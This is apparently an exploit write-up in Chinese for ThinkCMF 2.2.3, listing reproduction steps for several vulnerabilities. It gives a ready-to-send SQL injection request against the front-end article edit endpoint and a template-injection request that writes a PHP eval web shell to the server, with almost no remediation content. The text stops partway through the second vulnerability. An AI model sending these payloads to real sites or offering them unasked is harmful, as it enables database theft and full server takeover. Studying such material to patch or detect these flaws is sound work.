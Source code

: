 # ThinkCMF 2.2.3 漏洞合集

### 一、漏洞简介

### 二、漏洞影响

ThinkCMF 2.x

### 三、复现过程

#### 0x01 前台用户文章编辑提交存在注入

0x01.1 漏洞演示


```bash
前台的文章编辑中操作框架注入，所以可以直接sql注入
url:http://thinkcmf.test/index.php?g=Portal&m=Article&a=edit_post
post:
term:123
post[post_title]:123
post[post_title]:aaa
post_title:123
post[id][0]:bind
post[id][1]:0 and (updatexml(1,concat(0x7e,(select user()),0x7e),1))
```

![](images/15893431943854.png)


0x01.2 漏洞原理

文件：ThinkCMFX_2.2.3\application\Portal\Controller\ArticleController.class.php

方法：public function edit_post(

![](images/15893432044079.jpg)


这里不多讲，因为没得意义。详情请看先知的历史tp漏洞，谢谢：)

#### 0x02 前台模版注入漏洞-可getshell两处

0x02.1 Comment类模版引擎注入演示


```bash
url:http://thinkcmf.test/index.php?g=Comment&m=Widget&a=fetch
post:
templateFile=/../public/index
prefix=''
content=<php>file_put_contents('test.php','<?php eval($_REQUEST[11]);')</php>
```

发送之后页面http状态会为200，这样就表示成功了
